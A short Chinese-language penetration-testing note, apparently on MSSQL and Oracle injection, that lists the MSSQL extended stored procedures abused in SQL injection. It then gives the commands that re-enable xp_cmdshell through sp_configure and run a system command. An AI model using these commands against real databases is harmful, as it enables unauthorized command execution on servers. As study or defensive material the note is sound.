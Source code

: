 ![img](MSSQL%E5%92%8Coracle%E6%B3%A8%E5%85%A5.assets/2173462-20211120222216665-1285136377.png)

## 扩展存储过程

**在SQL注入攻击过程中，最常利用到的扩展存储**

| **扩展存储过程**     | **说明**                                                     |
| :------------------- | :----------------------------------------------------------- |
| xp_cmdshell          | 直接执行系统命令                                             |
| sp_OACreate()        | 直接执行系统命令                                             |
| sp_OAMethod()        | 直接执行系统命令                                             |
| xp_regread           | 进行注册表读取                                               |
| xp_regwrite          | 写入到注册表                                                 |
| xp_dirtree           | 进行列目录操作                                               |
| xp_ntsec_enumdomains | 查看domain信息                                               |
| xp_subdirs           | 通过xp_dirtree，xp_subdirs将在一个给定的文件夹中显示所有子文件夹 |

xp_cmdshell默认在** mssql2000中是开启** 的，在**mssql2005之后的版本中则默认禁止** 。如果用户拥有管理员**sysadmin** 权限则可以用** sp_configure重新开启**它

```
execute('sp_configure "show advanced options",1')  # 将该选项的值设置为1
execute('reconfigure')                             # 保存设置
execute('sp_configure "xp_cmdshell", 1')           # 将xp_cmdshell的值设置为1
execute('reconfigure')                             # 保存设置
execute('sp_configure')                            # 查看配置
execute('xp_cmdshell "whoami"')                    # 执行系统命令

exec sp_configure 'show advanced options',1;       # 将该选项的值设置为1
reconfigure;                                       # 保存设置
exec sp_configure 'xp_cmdshell',1;                 # 将xp_cmdshell的值设置为1
reconfigure;                                       # 保存设置
exec sp_configure;                                 # 查看配置
exec xp_cmdshell 'whoami';                         # 执行系统命令
```